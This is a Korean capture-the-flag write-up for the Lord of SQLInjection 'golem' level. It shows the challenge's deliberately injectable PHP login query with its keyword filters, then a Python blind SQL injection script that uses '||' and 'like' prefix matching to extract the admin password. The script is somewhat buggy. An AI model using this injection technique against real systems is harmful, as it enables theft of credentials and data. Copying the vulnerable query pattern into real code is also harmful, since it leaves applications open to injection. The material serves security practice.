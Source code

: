 
# LOS: golem

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

`or` 과 `and`, `substr` 함수가 필터링 되어있다. 하지만 이전 문제부터 `||` 기호를 활용해왔었는데 아직 막히지 않았다.

<br>

## writeup

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' || pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```